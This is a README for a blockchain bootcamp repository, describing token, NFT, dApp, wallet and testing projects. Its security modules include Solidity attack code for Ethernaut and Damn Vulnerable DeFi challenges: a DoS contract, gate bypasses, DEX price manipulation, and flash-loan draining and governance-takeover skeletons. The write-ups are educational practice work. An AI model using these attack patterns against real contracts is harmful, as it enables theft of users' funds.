

# Metana-bootcamp

#### Installation

Node.js and npm are required to run the project. To install the project, run the following command:

```
npm install

```

### Module 1: ERC20 Token

This module is about creating an ERC20 token. The ERC20 token is a standard interface for fungible tokens. The interface
is defined in the ERC20.sol file. The token is created in the ERC20Token.sol file.

It leverages the OpenZeppelin library, which is a library for secure smart contract development. The library provides
secure and community-vetted code for the Ethereum ecosystem.

### Module 2: ERC721 Token

This module is about creating an ERC721 token. The ERC721 token is a standard interface for non-fungible tokens.
The deliverable for this module are listed below:

- **1_metana_opensea.sol**: a smart contract that mints up to 10 ERC721 tokens and enables their listing on OpenSea
  testnet.
  The contract is deployed on the Sepolia testnet at
  this [address](https://sepolia.etherscan.io/address/0x18250e558872c6c15ce9855f3133f98566b80165).
  You can view the collection on OpenSea [here](https://testnets.opensea.io/collection/metanaopensea-1).
  The contract allows anyone to mint tokens for free, eliminating the need for a withdrawal function.
  After minting, tokens can be sold on OpenSea, with proceeds going directly to the token owners rather than the
  contract.


- **2_payable_nft**: A system of smart contracts that implements an NFT (ERC721 token) which can be minted by paying
  with a custom ERC20 token. The system consists of three main components:
    1. An ERC20 token contract (reused from module 1) that provides the currency for purchasing NFTs.
    2. An ERC721 contract (ERC721Exchange) that represents the NFTs and includes a minter role for controlled minting.
    3. A Minter contract that facilitates the exchange of ERC20 tokens for newly minted NFTs.

  The deployment process requires multiple steps due to contract interdependencies: first deploying the ERC20 and ERC721
  contracts, then the Minter contract, and finally setting the Minter as the authorized minter in the ERC721 contract.


- **3_staking_nft**: A system of smart contracts that implements NFT staking with ERC20 token rewards. The system
  consists of three main components:
    1. An ERC20 token contract that serves as the reward token and includes controlled minting capabilities.
    2. An ERC721 token contract representing the NFTs, which can be minted using the ERC20 tokens.
    3. A Staker contract that allows users to stake their NFTs, earn ERC20 rewards (10 tokens per 24 hours), and
       withdraw or transfer their staked NFTs at any time.

  The implementation ensures secure communication between contracts, handles decimals correctly in ERC20 transfers, and
  allows users to claim rewards without withdrawing their NFTs. The staking mechanism is time-based and prevents
  exploitation through re-staking. The system also supports the transfer of staked NFTs, maintaining the staking state
  and rewards.

### Module 3: Alchemy dApp

This module contains a dApp that mimics the functionality of a forgery. There are a few rules in this dApp:

- Iron, Copper, and Silver are the only materials that can be used to create a forgery.
- Gold can be forged by burning Iron and Copper.
- Platinum can be forged by burning Copper and Silver.
- Palladium can be forged by burning Iron and Silver.
- Rhodium can be forged by burning Iron, Copper, and Silver.
- Gold, Platinum, Palladium, and Rhodium cannot be forged into another.
- Everything can be traded for Iron, Copper, and Silver.
- There is a cooldown of 1 minute between each forging.

The application is available
at [https://alchemist-q6w3w3pyk-s-di-colas-projects.vercel.app/](https://alchemist-q6w3w3pyk-s-di-colas-projects.vercel.app/)
> **Warning:** The contract is deployed on holesky network
>
at [https://holesky.etherscan.io/address/0x90B78FF67D038557B93aF531866e0Ff7FB7bC010](https://holesky.etherscan.io/address/0x90B78FF67D038557B93aF531866e0Ff7FB7bC010).
> Since holesky is not supported by OpenSea, the NFTs are not visible on OpenSea.

> **Note:** The dApp leverages scaffold-eth2, to run the dApp locally, follow the instructions below:
> 1. Install the dependencies
> 2. Run a local network in the first terminal with `yarn chain`
> 3. Deploy the test contract in the second terminal with `yarn deploy` (check the `hardhat.config.ts` file for the
     network configuration)
> 4. Start your NextJS app in the third terminal with `yarn start` (visit your app on `http://localhost:3000`)

### Module 4: Testing

This module contains tests for the ERC20 (sellBack functionality) and Forgery dApp. The tests are written using Hardhat
and viem. The tests can be run using the following command:

``` 
hardhat test
```

Coverage reports can be generated using the following command:

```
hardhat coverage
```

Whereas mutation tests can be run using the following command:

```
sumo test
```

The mutation test coverage shows a mutation score of 93% for the Forgery dApp. The coverage report can be found in the
`coverage` folder.

### Module 5: ETH client

# ERC20 Token Analytics and Ethereum Gas Metrics Visualizer

This project provides real-time visualizations of ERC20 token transfers and Ethereum gas metrics using ApexCharts. It
displays three synchronized charts that update as new blocks are mined on the Ethereum network.

## Features

1. **ERC20 Token Transfer Volume Chart**

- Monitors logs of a specified ERC20 token address.
- Plots the total volume of transfers for each block.
- Uses a bar chart to represent the number of transactions.

2. **Block Base Fee Chart**

- Displays the BASEFEE for each block.
- Helps visualize the gas price dynamics introduced by EIP-1559.

3. **Gas Usage Ratio Chart**

- Shows the ratio of gasUsed over gasLimit as a percentage.
- Helps understand network congestion and gas price correlations.

All charts use a lookback of 10 blocks to provide initial data when the page loads.

## How to Run

1Set up your environment variables:
Create a `.env` file in the project root, similar to `.envexample`, and add your Alchemy API key:

   ```
   ALCHEMY_API_KEY=your_api_key_here
   ```

2Run the development server:

   ```
   npm run dev
   ```

5. Open your browser and navigate to `http://localhost:1234` (or the port specified by Parcel).

## Understanding the Charts

1. **ERC20 Token Transfer Volume**

- X-axis: Block number
- Y-axis (left): Total transfer volume in token units
- Y-axis (right): Number of transactions
- This chart helps visualize the transfer activity of the chosen ERC20 token over time.

2. **Block Base Fee**

- X-axis: Block number
- Y-axis: Base fee in Gwei
- This chart shows the fluctuation of the base fee, which is a key component of Ethereum's gas pricing mechanism
  post-EIP-1559.

3. **Gas Usage Ratio**

- X-axis: Block number
- Y-axis: Percentage of gas limit used
- This chart displays how much of the block's gas limit is being utilized.

## Observations

When analyzing these charts, you may notice:

1. Correlation between high transfer volumes and increased base fees.
2. The gas usage ratio often staying within a specific range, with occasional spikes.
3. Potential relationships between the gas usage ratio and the base fee, where higher usage ratios might precede or
   coincide with base fee increases.

These observations can provide insights into network congestion, gas price dynamics, and the overall health of the
Ethereum network.

## Testing with Popular ERC20 Tokens

To test with different ERC20 tokens, replace the `USDT_CONTRACT` address in `src/usdt-tx.ts` with addresses of popular
tokens such as:

- DAI: 0x6b175474e89094c44da98b954eedeac495271d0f
- USDC: 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48
- LINK: 0x514910771af9ca656af840dff83e8264ecf986ca

Observing different tokens can provide insights into varying transfer patterns and their effects on gas metrics.

### Module 6: Security Basics

This module covers the basics of smart contract security, including common vulnerabilities and best practices. The
deliverables for this module are:

- Ethernaut: A series of smart contract security challenges that test your knowledge of common vulnerabilities and best
  practices. The challenges cover topics such as reentrancy, denial of service, and integer overflow. The Ethernaut
  challenges are available at [https://ethernaut.openzeppelin.com/](https://ethernaut.openzeppelin.com/).
- Capture The Ether Foundry: A foundry environment to practice the problems
  on [capturetheether.com](https://capturetheether.com/). The problems run on a defunct testnet and use an older version
  of Solidity. This repository doesn't depend on testnets and uses the latest Solidity version. Some problems could not
  be ported because they rely on vulnerabilities that only existed in older versions of Solidity. Some liberty has been
  taken where the syntax and other compiler features are no longer compatible. The foundry environment is available at [

### Module 8: Address Security and Advanced NFT

This module covers two main topics: address-related security considerations and implementation of an advanced NFT
contract.

#### Part 1: Address Hacks

1. **ExtcodeSize Bypass**

- Demonstrated how `extcodesize` check can be bypassed in constructors
- Note: OpenZeppelin removed `isContract` in v5 due to security vulnerabilities
- Manual `extcodesize` checks implemented to demonstrate vulnerability

2. **Transaction Origin vs Sender**

- Implemented demonstration of `msg.sender == tx.origin` security check
- Showed how this blocks constructor calls
- Used OpenZeppelin's Address library functionality

3. **Damn Vulnerable DeFi Challenge #3**

- Completed Truster challenge

```solidity
function test_truster() public checkSolvedByPlayer {
    bytes memory data = abi.encodeWithSignature("approve(address,uint256)", player, TOKENS_IN_POOL);
    pool.flashLoan(
        0,  // amount
        player,  // borrower
        address(token),  // target
        data  // approval call
    );
    token.transferFrom(address(pool), recovery, TOKENS_IN_POOL);
    vm.setNonce(player, 1);
}
```

4. **Ethernaut 14**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "@openzeppelin/contracts/utils/Address.sol";


contract Gate2 {
    using Address for address;

    constructor(address _gk2) {
        require(_gk2 != address(0));

        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);

        require(abi.decode(_gk2.functionCall(abi.encodeWithSignature("enter(bytes8)", key)), (bool)));
    }
}
```

#### Part 2: Advanced NFT Implementation

1. **Merkle Tree Airdrop**

- Implemented presale minting with merkle tree verification
- Gas cost comparison between mapping and bitmap:
    - Mapping: Higher storage costs
    - Bitmap: More efficient for large sets
- Used OpenZeppelin's BitMaps library

2. **Commit-Reveal Mechanism**

- Two-phase minting process for random NFT IDs
- 10 block waiting period between commit and reveal
- Random ID generation using blockhash
- Front-running prevention through commit-reveal pattern

3. **Multicall Implementation**

- Inherited from OpenZeppelin's Multicall
- Enables batch transfers in single transaction
- Protected against minting abuse through proper overrides
- Uses ERC721Enumerable for token tracking

4. **State Machine**

- States: NOT_STARTED → PRESALE → PUBLIC_SALE → SOLD_OUT
- State transitions:
    - NOT_STARTED to PRESALE: 1 hour after deployment
    - PRESALE to PUBLIC_SALE: After 1 day
    - Any state to SOLD_OUT: When max supply reached

5. **Payment Distribution**

- Implemented using OpenZeppelin's PaymentSplitter
- Supports arbitrary number of contributors
- Pull pattern for secure withdrawals
- Set up at deployment with predefined shares

#### Security Considerations

**Q: Should you be using pausable or nonReentrant in your NFT? Why or not?**

A: Although pausable should be used to prevent exploits, nonReentrant is not necessary for NFTs because:

1. Merkle tree verification requires valid proofs
2. Commit-reveal pattern requires valid secrets
3. These mechanisms inherently prevent reentrancy
4. State machine ensures proper flow control

**Q: What trick does OpenZeppelin use to save gas on the nonReentrant modifier?**

A: OpenZeppelin uses compile-time constants for status flags:

```solidity
uint256 private constant NOT_ENTERED = 1;
uint256 private constant ENTERED = 2;
```

Since they are constants, they become part of the bytecode. This implies no storage slot is used, saving the expensive
gas costs associated with SSTORE operations. Moreover, reading is very cheap, as it is just a bytecode lookup.

### Module 9: Upgradable Contracts

This module covers the concept of upgradable contracts and how to implement them using OpenZeppelin's Upgrades Plugins.
The three contracts from module 2 are upgraded using both UUPS and Transparent proxy pattern (see test folder).

Lastly, a simple ERC721 contract is deployed and upgraded to demonstrate the upgradability of contracts by adding a god
mode feature.
The proxy is deployed to holesky network
at [0x247b1c3e3D1386adafbE7B94109D33307f64768C](https://holesky.etherscan.io/address/0x247b1c3e3D1386adafbE7B94109D33307f64768C).

### Module 10: YUL and Assembly

This module covers the basics of YUL and Assembly in Solidity. The deliverables for this module is the implementation of
the following contracts:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.4;

contract BitWise {
    // count the number of bit set in data.  i.e. data = 7, result = 3
    function countBitSet(uint8 data) public pure returns (uint8 result) {
        for (uint i = 0; i < 8; i += 1) {
            if (((data >> i) & 1) == 1) {
                result += 1;
            }
        }
    }

    function countBitSetAsm(uint8 data) public pure returns (uint8 result) {
        // replace following line with inline assembly code
        result = countBitSet(data);
    }
}

contract String {
    function charAt(string memory input, uint index) public pure returns (bytes2) {
        assembly{
        // add logic here
        // return the character from input at the given 
        // index
        // where index is base 0
        }
    }
}
```

### Module 11: Transactions and MultSig Wallet

This module covers the basics of transactions and Multisig Wallets. The deliverables for this assignment is to build a
basic crypto wallet from scratch,
without using any libraries or existing wallets.

To run the wallet you would need to provide the rename the `.env.example` file to `.env` and provide the following
environment variables:

```
SECRET_ALCHEMY_API_KEY=your-api-key
SECRET_ETHERSCAN_API_KEY=your-api-key
```

Then run the following command:

``` 
npm run dev
```

Finally, navigate to the host address provided in the terminal.

### Module 12: DeFi Security Challenges

#### Overview

This module covers key DeFi security concepts through Ethernaut and Damn Vulnerable DeFi challenges.

#### Ethernaut Challenges

###### Challenge 9: King

**Vulnerability**: Denial of Service through ETH rejection

```solidity
contract KingAttack {
    constructor(address payable kingGame) {
        (bool s,) = kingGame.call{value: msg.value}("");
        require(s, "Failed");
    }

    receive() external payable {
        revert("Cannot be king");
    }
}
```

**Key Learning**:

- Smart contracts can prevent others from becoming king by reverting ETH transfers
- Always validate assumptions about ETH transfers
- Consider fallback function implications

###### Challenge 22: Dex

**Vulnerability**: Price manipulation through balance ratios

**Attack Sequence**:

1. Swap 10 token1 → token2
2. Swap 20 token2 → token1
3. Swap 24 token1 → token2
4. Swap 30 token2 → token1
5. Swap 41 token1 → token2
6. Swap 45 token2 → token1

**Price Formula Exploited**:

```solidity
price = (amount * IERC20(to).balanceOf(address(this)))
    / IERC20(from).balanceOf(address(this))
```

**Key Learning**:

- Balance-based pricing is vulnerable to manipulation
- Small trades can significantly impact exchange rates
- Need price oracles or time-weighted average prices

###### Challenge 23: DexTwo

**Vulnerability**: Missing token validation in swap function

```solidity
contract MaliciousToken {
    // Create token with minimal DEX balance (1 token)
    // Exploit price formula: (amount * targetBalance) / maliciousBalance
    // Example: (1 * 100) / 1 = 100
    // Single malicious token drains entire balance
}
```

**Key Learning**:

- Always validate input tokens
- Whitelist approved tokens
- Check token interfaces and behavior

##### Damn Vulnerable DeFi

###### Free Rider Challenge

**Vulnerability**: NFT marketplace price validation bypass + flash loan exploitation

```solidity
contract FreeRiderAttack {
    function attack() external {
        // 1. Flash loan WETH from Uniswap
        uniswapPair.swap(NFT_PRICE, 0, address(this), "flashloan");

        // 2. Purchase NFTs at exploited price
        marketplace.buyMany{value: NFT_PRICE}(tokenIds);

        // 3. Collect bounty
        transferNFTs(recovery);

        // 4. Repay flash loan with fees
        repayFlashLoan();
    }
}
```

**Key Learning**:

- Validate marketplace prices
- Consider flash loan impact
- Implement proper access controls

###### Selfie Challenge

**Vulnerability**: Governance manipulation via flash loans

```solidity
contract SelfieAttack {
    function attack() external {
        // 1. Flash loan governance tokens
        pool.flashLoan(amount);

        // 2. Create governance snapshot
        token.snapshot();

        // 3. Queue malicious proposal
        governance.queueAction(
            address(pool),
            abi.encodeWithSignature("drainFunds()")
        );

        // 4. Wait timelock
        // 5. Execute drain
        governance.executeAction(actionId);
    }
}
```

**Key Learning**:

- Flash loans can manipulate governance
- Implement voting delays
- Consider token borrowing in voting power

# Module 13-14: Modern Smart Contract Tools

This module introduces a decentralized limit order system built with modern smart contract tools. Users can set limit
orders via a SvelteKit 5 frontend, and orders are managed through Solidity contracts. Real-time price feeds from
Chainlink, automated monitoring with OpenZeppelin Defender, and Uniswap integration enable seamless, trustless order
execution. Indexed with The Graph, order data is easily queryable for complete transparency.

Key Highlights:

* Automated Trading: Limit orders execute automatically when market conditions are met.
* Reliable Price Feeds: Real-time data from Chainlink ensures accurate triggering.
* DEX Integration: Uniswap is used to swap tokens instantly.
* Efficient Data Management: Order history and statuses are indexed using The Graph.
* Tested and Secure: Validated on Tenderly testnet with comprehensive Smock tests.


This module deepens the practical skills in building secure, automated DeFi applications using the latest tools and technologies.

# Module 15: Advanced Testing in Solidity

## Overview
This module focused on advanced testing techniques in Solidity, exploring various testing tools and completing several DeFi security challenges. The main focus was on understanding and implementing security testing practices using modern tools while solving practical DeFi vulnerability scenarios.

## Tools Explored
- **Fuzzing**: Automated testing technique that generates random inputs to find edge cases and vulnerabilities
- **Manticore**: Symbolic execution tool for smart contract analysis
- **Echidna**: Property-based testing framework specifically designed for Ethereum smart contracts
- **Foundry**: Modern smart contract development toolchain with advanced testing capabilities

## Damn Vulnerable DeFi Challenges

### 1. Naive Receiver
**Challenge Overview**: This challenge demonstrates the importance of access control and validation in flash loan receivers.

**Solution Approach**:
- Identified vulnerability in the flash loan receiver's lack of access control
- Exploited the receiver's naïve fee payment mechanism
- Implemented solution using proper validation checks

### 2. Unstoppable
**Challenge Overview**: Explores vulnerabilities in DeFi lending pool implementations.

**Solution Approach**:
- Analyzed the pool's accounting system
- Identified critical vulnerability in token balance tracking
- Demonstrated how to break the pool's invariant

### 3. Side Entrance
**Challenge Overview**: Demonstrates how flash loan callbacks can be exploited.

**Solution Approach**:
- Utilized flash loan callback mechanism
- Created malicious contract to drain the lending pool
- Implemented proper flash loan pattern with security considerations

### 4. The Rewarder
**Challenge Overview**: Shows vulnerabilities in reward distribution systems.

**Solution Approach**:
- Analyzed the reward distribution mechanism
- Identified time-based vulnerability
- Implemented flash loan attack to manipulate rewards

## Key Learnings
- Importance of comprehensive testing in DeFi protocols
- Understanding common DeFi vulnerabilities and attack vectors
- Implementing secure coding practices
- Using advanced testing tools effectively

## Security Considerations
The solutions implemented follow best practices while demonstrating security vulnerabilities. All exploits were conducted in a controlled testing environment for educational purposes only.
